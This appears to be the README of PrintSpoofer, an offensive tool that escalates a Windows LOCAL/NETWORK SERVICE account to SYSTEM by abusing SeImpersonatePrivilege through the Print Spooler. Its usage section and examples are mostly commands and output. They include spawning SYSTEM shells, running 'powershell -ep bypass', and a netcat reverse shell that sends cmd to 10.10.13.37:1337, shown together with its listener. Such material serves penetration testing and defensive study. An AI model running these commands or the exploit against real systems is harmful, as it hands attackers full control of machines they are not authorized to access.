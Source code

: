 # PrintSpoofer

From LOCAL/NETWORK SERVICE to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019.

:information_source: If you want to know how this works, please check out this detailed blog post: [https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/).

<p align="center">
  <img src="demo.gif">
</p>

## Usage

You can check the help message using the `-h` option.

```txt
C:\TOOLS>PrintSpoofer.exe -h

PrintSpoofer v0.1 (by @itm4n)

  Provided that the current user has the SeImpersonate privilege, this tool will leverage the Print
  Spooler service to get a SYSTEM token and then run a custom command with CreateProcessAsUser()

Arguments:
  -c <CMD>    Custom command line to execute
  -i          Interact with the new process in the current console (default is non-interactive)
  -d          Spawn a new process on the currently active desktop
  -h          That's me :)

Examples:
  - Run PowerShell as SYSTEM in the current console
      PrintSpoofer.exe -i -c powershell.exe
  - Spawn a SYSTEM command prompt on the currently active desktop
      PrintSpoofer.exe -d -c cmd.exe
  - Get a SYSTEM reverse shell
      PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"
```

### Example 1: Spawn a SYSTEM command prompt in the current console

:information_source: This command requires an __interactive__ shell.

:warning: Don't run this command through WinRM or in a pseudo-shell (e.g.: `wmiexec.py`).

```txt
C:\TOOLS>PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Example 2: Get a SYSTEM reverse shell

:information_source: This command can be used to create a new process and immediately exit.

```txt
C:\TOOLS>PrintSpoofer.exe -c "C:\TOOLS\nc.exe 10.10.13.37 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

Netcat listener:

```txt
C:\TOOLS>nc.exe -l -p 1337
Microsoft Windows [Version 10.0.19613.1000]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\system
```

### Example 3: Spawn a SYSTEM PowerShell prompt on the active desktop

:information_source: For testing purposes, you can spawn a SYSTEM shell on your desktop. :)

:warning: Don't run this command in a terminal session (RDP).

```txt
C:\TOOLS>PrintSpoofer.exe -d -c "powershell -ep bypass"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

